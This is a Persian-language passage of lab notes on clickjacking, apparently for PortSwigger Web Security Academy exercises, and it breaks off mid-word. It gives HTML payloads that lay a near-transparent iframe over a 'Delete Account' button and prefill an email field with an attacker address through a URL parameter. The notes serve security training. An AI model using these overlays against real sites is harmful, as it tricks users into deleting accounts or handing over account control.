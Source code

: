 # Clickjacking

## Exploit
- **حمله مقدماتی با حفاظت CSRF Token**
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- **پر کردن خودکار فیلدهای فرم با استفاده از URL Param**
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم
```HTML
<iframe src="$url?email=hacker@attacker-website.com"></iframe>
```
- س
